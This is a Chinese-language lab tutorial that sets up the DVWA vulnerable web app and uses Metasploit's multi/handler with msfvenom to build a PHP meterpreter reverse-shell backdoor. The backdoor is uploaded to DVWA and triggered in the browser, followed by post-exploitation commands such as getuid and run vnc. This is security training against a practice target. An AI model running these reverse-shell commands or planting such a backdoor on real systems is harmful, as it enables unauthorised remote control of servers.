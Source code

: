 # 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://XxIP/setup.php
3 红字问题解决
4 缺少key  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini allow_url_include  将后面参数OFF 改成On 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

### 1 配置监控-使用handler模块

###    use exploit/multi/handler

### ![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/a2529fe010ac46108a0413b8153c08b0.png)  2 配置攻击载荷设置payload

###    第一步设置payload

###      set payload php/meterpreter/reverse_tcp

![image-20240916192712885](13 PHP后门反弹连接演示/image-20240916192712885.png)	

###    第二步设置 lhost 和 lport  

设置监听端口和自己的ip.

![image-20240916192801035](13 PHP后门反弹连接演示/image-20240916192801035.png)	 

开始监听4444端口。

![image-20240916193339132](13 PHP后门反弹连接演示/image-20240916193339132.png)	

### 3 生成php后门执行攻击获得meterpreter

新建一个终端在终端内输入

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 R>shell.php

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1fa4967afb3f487f84926004d4ddc591.png)

将shell.php上传到dvwa靶场。

![image-20240916193522503](13 PHP后门反弹连接演示/image-20240916193522503.png)	

于是通过网页上游览该文件，触发php代码执行。

![image-20240916193605712](13 PHP后门反弹连接演示/image-20240916193605712.png)	

3.3 执行攻击获得meterpreter

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1003035b32a343488a282bddec48a62b.png)

run 或者exploit

获取到meterpreter 我们就可以做渗透操作了

查看操作系统信息。

![image-20240916193633975](13 PHP后门反弹连接演示/image-20240916193633975.png)	

比如 观看检测对方的屏幕 可以在meterpreter里输入 ，但是这里没有复现成功。

run vnc

查看当前账号可以在meterpreter里输入

getuid